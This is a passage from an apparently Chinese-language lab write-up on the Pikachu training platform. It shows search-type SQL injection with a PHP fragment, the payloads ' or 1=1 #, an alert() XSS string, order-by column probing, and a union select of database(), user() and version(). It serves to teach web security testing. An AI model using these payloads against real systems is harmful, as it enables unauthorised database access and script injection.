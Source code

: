 ```php
    }else{

        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";
    }
}
```

**漏洞利用**

随意输入一个字母，能看到匹配出了对应的信息。那么按照 SQL 的模糊查询命令 `select * from 表名 where 字段名 like ‘%（对应值）%’;` ，发现可以按照之前的思路来实现万能语句的拼接。

构造 payload `' or 1=1 #`

这里还存在一个xss `'# <script>alert('沵咑礷赇潒礤蒣騉')</script>`

**union注入**

union 操作符用于合并两个或多个 SQL 语句集合起来，得到联合的查询结果。

以 pikachu 平台的数据库为例，输入 `select id,email from member where username='kevin' union select username,pw from member where id=1` ;查看查询结果。

![image](../../../assets/img/安全/实验/pikachu/29.png)

但是联合多个 SQL 语句时可能出现报错，因为查询的字段不能超过主查询的字段，这个时候可以在 SQL 语句后面加 order by 进行排序，通过这个办法可以判断主查询的字段。返回 pikachu 平台，在 SQL 注入下随意打开搜索型栏目，输入我们构造的 order by 语句进行测试。

输入 `' order by 4#%` ,报错

输入 `' order by 3#%` ,未报错，通过这个简单的办法找到主查询一共有三个字段。

构造 payload: `a' union select database(),user(),version()#%`

![image](../../../assets/img/安全/实验/pikachu/30.png)
